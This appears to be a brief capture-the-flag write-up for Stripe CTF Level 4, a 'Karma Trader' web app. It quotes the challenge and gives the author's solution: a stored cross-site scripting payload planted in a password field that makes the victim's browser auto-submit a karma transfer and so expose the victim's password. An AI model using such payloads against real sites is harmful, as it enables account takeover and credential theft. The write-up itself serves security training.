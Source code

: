 The Karma Trader is the world's best way to reward people for good deeds: https://level04-2.stripe-ctf.com/user-XXXXXXXXXX. You can sign up for an account, and start transferring karma to people who you think are doing good in the world. In order to ensure you're transferring karma only to good people, transferring karma to a user will also reveal your password to him or her.

The very active user karma_fountain has infinite karma, making it a ripe account to obtain (no one will notice a few extra karma trades here and there). The password for karma_fountain's account will give you access to Level 5.

You can obtain the full, runnable source for the Karma Trader from git clone https://level04-2.stripe-ctf.com/user-XXXXXXXXXX/level04-code. We've included the most important files below. 


**My solution:**

<script>document.getElementsByName("to").item(0).value="me"; document.getElementsByName("amount").item(0).value="10"; document.getElementsByName("amount").item(0).parentNode.parentNode.submit(); alert("itworked"); </script> in the password field of second account, and transfer to karma_fountain; karma_fountain logs in and javascript gets executed via password field: karma transferred from karma_fountain to me; I log in as me and see karma_fountains password
